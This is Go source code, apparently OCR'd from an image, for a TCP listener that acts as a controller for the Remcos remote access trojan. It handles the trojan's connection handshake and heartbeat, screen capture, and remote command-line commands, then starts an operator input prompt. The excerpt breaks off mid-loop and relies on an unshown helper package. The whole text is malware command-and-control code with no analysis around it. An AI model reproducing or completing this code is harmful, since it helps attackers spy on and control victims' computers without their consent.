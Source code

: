 ```bash
package main

import (
    "Client_Remcos/remcos_xx"
    "bufio"
    "encoding/hex"
    "fmt"
    "net"
    "os"
)

func main() {
    client_Remcos("0.0.0.0", "8080")
}

func client_Remcos(address, port string) {
    // 创建监听器
    listener, err := net.Listen("tcp", address+":"+port)
    if err != nil {
        fmt.Println("Error listening:", err.Error())
        return
    }
    defer listener.Close()

    fmt.Println("Server started. Listening on " + address + ":" + port)

    for {
        conn, err := listener.Accept()
        if err != nil {
            fmt.Println("Error accepting connection:", err.Error())
            return
        }
        // 处理服务端连接
        go handle_Remcos_Connection(conn)
    }
}

func handle_Remcos_Connection(conn net.Conn) {
    defer conn.Close()

    recvdata, err := remcos_xx.RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }
    command := remcos_xx.ParseCommand(recvdata[:4])

    switch hex.EncodeToString(command) {
    case "0000004b":
        fmt.Println("初始化连接......")
        remcos_xx.Initconnect(conn)
        go remcos_xx.Heartbeat(conn)
    case "00000010":
        remcos_xx.Command_Screen_Capture(conn)
        return
    case "00000093":
        remcos_xx.Command_Command_Line(conn)
        return
    }

    for {
        fmt.Println("请输入指令：")
        reader := bufio.NewScanner(os.Stdin)
```
